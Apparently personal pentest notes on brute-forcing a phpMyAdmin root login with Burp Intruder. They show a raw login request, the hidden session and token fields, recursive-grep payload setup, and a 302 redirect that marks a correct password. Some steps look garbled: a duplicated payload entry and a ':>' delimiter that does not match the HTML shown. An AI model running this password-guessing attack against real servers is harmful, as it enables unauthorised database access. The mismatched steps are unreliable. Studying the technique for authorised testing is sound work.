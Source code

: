 ## Sample post login request
1. Cookie with the value: phpMyAdmin
2. set_session post data: same value as the phpMyAdmin cookie
3. a password that we want to try
4. a token value in the post data
```
POST /phpmyadmin/index.php?route=/ HTTP/1.1
Host: nix
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: null
Connection: close
Cookie: phpMyAdmin=tcrg5ptlfkit2mik13vbsi2aah; pma_lang=en
Upgrade-Insecure-Requests: 1

set_session=tcrg5ptlfkit2mik13vbsi2aah&pma_username=root&pma_password=hello&server=1&route=%2F&token=504a3960426a23433839432548265756
```
## let's look at the response to the login request:
1. notice the value in the hidden set_session input value
```
<form method="post" id="login_form" action="index.php?route=/" name="login_form" class="disableAjax hide login js-show form-horizontal">
  <fieldset>
    <legend class="col-form-label">
      <input type="hidden" name="set_session" value="0epta11d41e5bqdjcon0pt37j4">
            Log in      <a href="./doc/html/index.html" target="documentation"><img src="themes/dot.gif" title="Documentation" alt="Documentation" class="icon ic_b_help"></a>
    </legend>
```
2. notice the hidden token value
```
<div class='hide js-show'>
        <form method="get" action="index.php?route=/" class="disableAjax">
    <input type="hidden" name="db" value=""><input type="hidden" name="table" value=""><input type="hidden" name="token" value="2b3256584933672d4e29672d7e69584d">
```
## if we send the request to intruder, and got the options tab, we can extract useful information from responses and feed them to the attack results table.
1. we grab from `_session" value="` to `">` for the cookie value
2. we grab from `token" value="` to `:>` for the token value

![phpma-brute-1](phpma-brute-1.jpg)

## we then configure the payload locations
![phpma-brute-2](phpma-brute-2.jpg)

## and set them for their respective values
1. recursive grep: from `_session" value="` to `">` for the cookie value
2. recursive grep: from `_session" value="` to `">` for the cookie value
3. simple list: <PASSWORD_LIST>
4. recursive grep: from `token" value="` to `:>` for the token value

![phpma-brute-3](phpma-brute-3.jpg)

## after that, we set the resource pool for 1 max concurrent request to be compatible with our recursive grep payloads
![phpma-brute-4](phpma-brute-4.jpg)

## we then launc the attack and get a 302 redirect when the password is correct
![phpma-brute-5](phpma-brute-5.jpg)